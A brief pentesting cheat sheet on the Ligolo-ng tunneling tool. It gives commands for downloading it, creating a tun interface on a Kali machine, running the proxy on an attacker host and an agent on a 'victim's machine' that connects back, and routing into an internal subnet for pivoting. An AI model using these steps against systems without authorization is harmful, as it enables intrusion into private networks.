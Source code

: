 # Ligolo-ng
![Ligolo-ng](https://i.ytimg.com/vi/msSpAYT9za8/maxresdefault.jpg)

-  https://github.com/nicocha30/ligolo-ng

#### Download Proxy and Agent

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
```

#### Prepare Tunnel Interface (in Kali Machine)

```bash
$ sudo ip tuntap add user $(whoami) mode tun ligolo
```

```bash
$ sudo ip link set ligolo up
```

#### Setup Proxy on Attacker Machine

```bash
$ ./proxy -laddr <LHOST>:443 -selfcert
```

#### Setup Agent on Target Machine (in Victim’s Machine)

```bash
$ ./agent -connect <LHOST>:443 -ignore-cert
```

#### Session

```bash
ligolo-ng » session
```

```bash
[Agent : user@target] » ifconfig
```

```bash
# in kali normal terminal , not inside ligolo shell
$ sudo ip r add 172.16.1.0/24 dev ligolo
```

```bash
[Agent : user@target] » start
```
